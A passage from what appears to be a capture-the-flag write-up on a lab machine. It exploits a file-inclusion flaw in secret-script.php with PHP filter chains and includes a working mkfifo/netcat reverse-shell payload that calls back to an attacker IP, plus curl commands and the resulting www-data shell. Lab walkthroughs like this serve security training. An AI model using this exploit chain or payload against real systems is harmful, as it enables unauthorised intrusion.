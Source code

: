 ![Web 80 Admin Panel](web_80_admin_panel.webp){: width="1200" height="600" }

> It is also possible to discover the `/secret-script.php` endpoint by fuzzing the web application for files, which reveals `messages.html` that links to it. Since there is no authentication mechanism, you can access it directly without logging in.
{: .prompt-tip }

Since the application seems to accept PHP filters, we can try using the `convert.base64-encode` filter to read the source code of the PHP pages. 

By examining the source code of `secret-script.php`, we see that it simply takes the `file` parameter and calls `include` with it.

```console
$ curl -s 'http://10.10.184.98/secret-script.php?file=php://filter/convert.base64-encode/resource=secret-script.php' | base64 -d
<?php
  //echo "Hello World";
  if(isset($_GET['file'])) {
    $file = $_GET['file'];
    include($file);
  }
?>
```
{: .wrap }

### RCE with PHP Filters Chain

At this point, we can achieve RCE using PHP filters chain, as described [here](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it).

First, we need to generate a payload using the [`php_filter_chain_generator.py`](https://github.com/synacktiv/php_filter_chain_generator).

```console
$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f"); ?>' | grep '^php' > payload.txt
```
{: .wrap }

Now, by sending our payload as the `file` parameter, we obtain a shell as the `www-data` user.

```console
$ curl -s "http://10.10.184.98/secret-script.php?file=$(cat payload.txt)"
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.184.98] 40680
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@cheesectf:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@cheesectf:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 443
$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443
www-data@cheesectf:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
